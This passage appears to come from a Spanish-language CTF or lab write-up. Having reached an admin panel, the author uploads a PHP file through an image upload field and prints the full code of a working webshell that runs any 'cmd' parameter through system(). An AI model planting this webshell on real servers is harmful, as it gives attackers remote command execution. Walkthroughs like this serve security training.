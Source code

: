 Estamos dentro del panel, ahora toca ganar acceso a la maquina:

Primero de todo pruebo si me deja subir archivos .php en algun sitio y encuentro que en las imágenes, después de unos cuantos intentos no puedo otorgarme una rev.shell, así que pruebo una webshell:

```bash
❯ cat webshell.php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

![images/Untitled%206.png](images/Untitled%206.png)
